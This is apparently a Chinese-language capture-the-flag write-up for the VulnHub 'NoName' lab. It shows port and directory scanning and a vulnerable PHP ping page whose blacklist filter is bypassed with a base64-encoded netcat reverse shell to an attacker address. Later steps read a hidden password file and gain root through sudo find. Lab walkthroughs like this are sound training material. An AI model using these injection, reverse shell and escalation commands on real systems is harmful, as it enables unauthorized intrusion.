






# NoName

> https://download.vulnhub.com/haclabs/HL.ova

靶场IP：`192.168.32.22`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.22 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 00:28 EDT
Nmap scan report for 192.168.32.22
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:74:12:22 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds

```

访问80端口，但是无法执行ping命令。



爆破目录，找到：`/superadmin.php `

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.32.22 -w /usr/share/wordlists/dirb/big.txt -x .php   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/14 00:31:46 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/admin                (Status: 200) [Size: 417]
/index.php            (Status: 200) [Size: 201]
/server-status        (Status: 403) [Size: 278]
/superadmin.php       (Status: 200) [Size: 152]
                                               
===============================================================
2022/09/14 00:32:12 Finished
===============================================================
                                                                  
```

访问：`/superadmin.php `



执行命令



查看`superadmin.php`源码，开源发现有些命令会被过滤。

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
>
```

使用base64绕过

```
┌──(root㉿kali)-[/tmp]
└─# echo 'nc.traditional  -e /bin/bash 192.168.32.5 12345' | base64
bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK
```

```
ping 127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK=" | base64 -d`
```



有隐藏文件



找属于yash用户的文件

```
www-data@haclabs:/home/yash$ find / -type f -user yash 2>/dev/null
find / -type f -user yash 2>/dev/null
/home/yash/flag1.txt
/home/yash/.bashrc
/home/yash/.cache/motd.legal-displayed
/home/yash/.profile
/home/yash/.bash_history
/usr/share/hidden/.passwd
```

```
www-data@haclabs:/home/yash$ cat /usr/share/hidden/.passwd
cat /usr/share/hidden/.passwd
haclabs1234
```

切换到`haclabs`用户

```
www-data@haclabs:/home/yash$ su haclabs
su haclabs
Password: haclabs1234

```

查看sudo列表



sudo提权

```
sudo -u root find . -exec /bin/bash \; -quit
```


